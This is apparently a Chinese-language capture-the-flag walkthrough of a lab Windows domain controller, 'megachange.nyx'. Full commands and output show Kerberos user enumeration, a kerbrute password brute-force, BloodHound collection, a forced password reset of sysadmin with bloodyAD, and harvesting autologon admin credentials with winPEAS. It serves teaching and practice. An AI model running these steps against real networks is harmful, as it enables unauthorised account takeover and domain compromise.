





## Box Info

| OS | Windows |
| --- | --- |
| Difficulty | Medium |

## Nmap

```
[root@kali] /home/kali  
❯ nmap 192.168.56.114 -sV -A -p- ⏎

PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-03-11 02:36:46Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: megachange.nyx0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: megachange.nyx0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
49670/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49671/tcp open  msrpc         Microsoft Windows RPC
49674/tcp open  msrpc         Microsoft Windows RPC
49675/tcp open  msrpc         Microsoft Windows RPC
49680/tcp open  msrpc         Microsoft Windows RPC
49697/tcp open  msrpc         Microsoft Windows RPC
MAC Address: 08:00:27:DD:48:CA (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Microsoft Windows 2019
OS details: Microsoft Windows Server 2019
Network Distance: 1 hop
Service Info: Host: CHANGE; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
|_clock-skew: 15h59m57s
|_nbstat: NetBIOS name: CHANGE, NetBIOS user: <unknown>, NetBIOS MAC: 08:00:27:dd:48:ca (Oracle VirtualBox virtual NIC)
| smb2-time: 
|   date: 2025-03-11T02:37:41
|_  start_date: N/A
```

把**megachange.nyx**添加到**/etc/hosts**

再通过**Kerberos**端口枚举一下用户

```
[root@kali] /home/kali/Desktop  
❯ nmap --script=krb5-enum-users --script-args=krb5-enum-users.realm=megachange.nyx -p88 192.168.56.114                                        ⏎

Host is up (0.00023s latency).

PORT   STATE SERVICE
88/tcp open  kerberos-sec
| krb5-enum-users: 
| Discovered Kerberos principals
|     administrator@megachange.nyx
|_    sysadmin@megachange.nyx
MAC Address: 08:00:27:DD:48:CA (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 0.23 seconds
```

## UserEnum

可以使用的字典：[kerberos\_enum\_dict/userlists\_english/usernames.txt at master · jearyorg/kerberos\_enum\_dict](https://github.com/jearyorg/kerberos_enum_dict/blob/master/userlists_english/usernames.txt)

再用**msf**的模块进行探测一下

```
msf6 auxiliary(gather/kerberos_enumusers) > run

[*] Using domain: MEGACHANGE.NYX - 192.168.56.114:88    ...
[+] 192.168.56.114 - User: "administrator" is present
[+] 192.168.56.114 - User: "alfredo" is present
[+] 192.168.56.114 - User: "change" is present
[-] 192.168.56.114 - User: "guest" account disabled or expired
```

那么整合一下现在获取到的用户名列表

```
administrator
sysadmin
change
alfredo
```

## BruteUser

```
[root@kali] /home/kali/Desktop  
❯ ./kerbrute bruteuser  --dc 192.168.56.114 -d megachange.nyx /usr/share/wordlists/rockyou.txt alfredo

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: v1.0.3 (9dad6e1) - 03/11/25 - Ronnie Flathers @ropnop

2025/03/11 11:41:04 >  Using KDC(s):
2025/03/11 11:41:04 >   192.168.56.114:88

2025/03/11 11:41:09 >  [+] VALID LOGIN:  alfredo@megachange.nyx:Password1
2025/03/11 11:41:09 >  Done! Tested 3527 logins (1 successes) in 5.049 seconds
```

得到**alfredo**的密码是**Password1**，再用**crackmapexec**看看用户，确实只有这几个。



## Bloodhound

使用**bloodhound-python**进行获取

```
[root@kali] /home/kali/Change  
❯ bloodhound-python -u alfredo -p Password1 -ns 192.168.56.114 -d megachange.nyx -c all --zip
INFO: Found AD domain: megachange.nyx
INFO: Getting TGT for user
WARNING: Failed to get Kerberos TGT. Falling back to NTLM authentication. Error: [Errno Connection error (change.megachange.nyx:88)] [Errno -2] Name or service not known
INFO: Connecting to LDAP server: change.megachange.nyx
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 1 computers
INFO: Connecting to LDAP server: change.megachange.nyx
INFO: Found 6 users
INFO: Found 52 groups
INFO: Found 2 gpos
INFO: Found 1 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: CHANGE.megachange.nyx
INFO: Done in 00M 00S
INFO: Compressing output into 20250311140042_bloodhound.zip
```



可以看到**alfredo**可以强制修改**sysadmin**的密码。

## ForceChangePassword

使用**bloodyAD**来进行修改密码

```
[root@kali] /home/kali  
❯ bloodyAD --host "192.168.56.114" -d "megachange.nyx" -u "alfredo" -p "Password1" set password SYSADMIN '123456ABC!'                                                                                         ⏎

[+] Password changed successfully!
```

修改之后，可以通过**5985**端口进行登录，拿到**user.txt**



## Root

查看当前**SYSADMIN**的所属组以及权限

```
*Evil-WinRM* PS C:\tmp> whoami /groups

GROUP INFORMATION
-----------------

Group Name                                  Type             SID          Attributes
=========================================== ================ ============ ==================================================
Everyone                                    Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users             Alias            S-1-5-32-580 Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                               Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access  Alias            S-1-5-32-554 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                        Well-known group S-1-5-2      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users            Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization              Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication            Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Plus Mandatory Level Label            S-1-16-8448
*Evil-WinRM* PS C:\tmp> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
```

没有可以直接利用的。上传**Winpeas**进行分析



发现存在自动登录的密码！

因此可以直接使用**evil-winrm**进行登录



## Summary

`User`：通过**Kerberos**进行用户枚举，建议使用大一点的字典，然后对**alfredo**进行密码爆破。使用**bloodhound**进行域内分析，得出**alfredo**可以修改**sysadmin**的密码，修改后可以登录**sysadmin**拿到**user.txt**

`Root`：由于sysadmin不属于特殊组，也没有特殊权限。通过Winpeas输出可以得到存在自动登录的管理员凭证，可以直接登录到**Administrator**（要注意登录的时候不要写成administrator），拿到**root.txt**
